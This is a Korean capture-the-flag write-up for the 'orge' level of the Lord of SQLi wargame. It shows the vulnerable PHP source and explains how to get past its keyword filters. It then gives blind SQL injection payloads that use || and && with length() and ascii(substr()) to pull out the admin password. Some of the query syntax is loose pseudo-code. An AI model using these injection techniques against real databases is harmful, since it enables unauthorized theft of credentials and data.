 ```yaml
---
layout: post
title: "LoS orge"
author: "isanghyeon"
tags: LordofSQLi
---
```


|문제 명|풀이 여부|URL|
|:------:|:---:|:-----:|
| **orge** | <span style="color:red">O</span> | https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php |

<hr/><br>

### Challenge Source Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

<br>

### Analysis Source Code
- #### preg_match function for $_GET[pw]
> ```php 
> preg_match('/prob|_|\.|\(\)/i', $_GET[pw])
> ```
> ```php
> preg_match('/or|and/i', $_GET[pw])
> ```
- #### Solve Conditions - 1
> ```php
> if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
> ```

|query|parms1|params2|
|:--:|:--:|:--:|
|select id from prob_orge where id='guest' and pw='{$_GET[pw]}'|id='guest'|pw='{$_GET[pw]}'|


- #### addslashes function for $_GET[pw]
> ```php 
> $_GET[pw] = addslashes($_GET[pw]); 
> ```
- #### Solve Conditions - 2
> ```php
> if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
> ```

|query|parms1|params2|
|:--:|:--:|:--:|
|select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'|id='admin'|pw='{$_GET[pw]}'|

이전에 설명했던 blind SQL injection에서 사용되는 함수 (ascii, substr)과 operator를 사용하면 쉽게 풀 수 있다.  
아래는 문제 풀이에 사용된 예시 SQL query이다.
```sql
length(pw)
select id from prob_orge where id='guest' and pw='' || id='admin' && length(pw) < N(10>|length(pw)|>5)#'
```
```sql
pw data
select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw(pw, index(<=length(pw)), 1)))<ascii(max=127, min=33)#
```
<hr/>
<br>

### Exploit Source Code
|작성 언어|Exploit Link|How to Exploit|
|:------:|:---:|:--:|
| **Python3.8** | https://github.com/isanghyeon/LordofSQLi-Solved-Exploit/tree/master/darkelf | Operator bypass |